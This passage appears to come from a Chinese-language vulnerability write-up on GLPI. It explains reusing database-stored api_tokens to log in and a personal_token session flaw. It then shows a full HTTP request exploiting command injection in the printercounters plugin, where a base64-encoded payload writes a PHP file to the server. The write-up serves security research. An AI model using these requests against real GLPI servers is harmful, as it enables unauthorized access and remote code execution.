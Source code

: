 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB1E20cRHPJj7wstXeibVRbsdHbCGFO6MWPGbJA5JaMBNyIicFOX31Sc7eYVzaMKleGJRmh3PycTOJoA/640?wx_fmt=png&from=appmsg "")  
  
需要注意的是，数据库的结构在不同版本之间会有所不同。因此，上述查询中的列数可能会有所不同。  
  
利用数据库读取绕过身份验证  
  
read已经获取了数据库权限，那么获取有效会话的方法有很多。最明显的方法是从数据库中恢复帐户并尝试破解密码。然而，由于密码是使用 存储的bcrypt，因此恢复技术人员或超级管理员帐户的明文可能非常困难。  
  
api_token  
  
如果api_token在数据库中设置了帐户的，则可以使用它轻松获取有效会话并通过 API 身份验证方法访问 GLPI 的 GUI。  
```
POST /glpi/front/login.php HTTP/1.1
Host: <redacted>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 212
Origin: http://<redacted>
Connection: keep-alive
Referer: http://<redacted>/glpi/index.php
redirect=&_glpi_csrf_token=<redacted>&field<redacted>=test&field<redacted>=test&auth=local&submit=&user_token=<api_token>
```  
  
然后，服务器会使用可用于访问 GUI 的有效 cookie 进行回答。  
```
Set-Cookie: glpi_<redacted>=<redacted>; path=/
```  
  
个人令牌  
  
此令牌用于日历功能，允许您使用唯一令牌共享个人日历。此令牌使用此Session::authWithToken方法验证会话，并在打印用户日历后销毁会话。  
  
可以通过personal_token在脚本结束执行之前强制触发致命错误来恢复模拟会话。自 10.0.9 版本起，通过将选项设置session.use_cookies为 ，此问题已得到缓解0。  
  
经过身份验证的远程代码执行  
  
方法 1  
  
一旦管理员帐户被入侵，获取远程代码执行的最简单方法就是进入插件市场。它甚至曾经托管过一个“Shell 命令”插件，但后来已被禁用远程安装，然而，仍然有很多易受攻击的插件。  
  
有时，GLPI 服务器无法直接访问互联网，但是可以从管理界面配置代理服务器，攻击者可以利用这一点，例如通过设置自己的代理服务器或配置内部公司代理。  
  
例如，公共插件printercounters仍然容易受到系统命令注入的攻击。  
```
POST /glpi/marketplace/printercounters/ajax/process.php HTTP/1.1
Host: <redacted>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Glpi-Csrf-Token: <redacted>
X-Requested-With: XMLHttpRequest
Content-Length: 266
Connection: keep-alive
Referer: http://<redacted>/glpi/marketplace/printercounters/front/config.form.php
Cookie: glpi_<redacted>=<redacted>; stay_login=0
action=killProcess&items_id=1231231';echo `{echo,PD9waHAgcGhwaW5mbygpOyA/Pg%3d%3d}|{base64,-d}|{tee,rz.php}`;%23
```  
  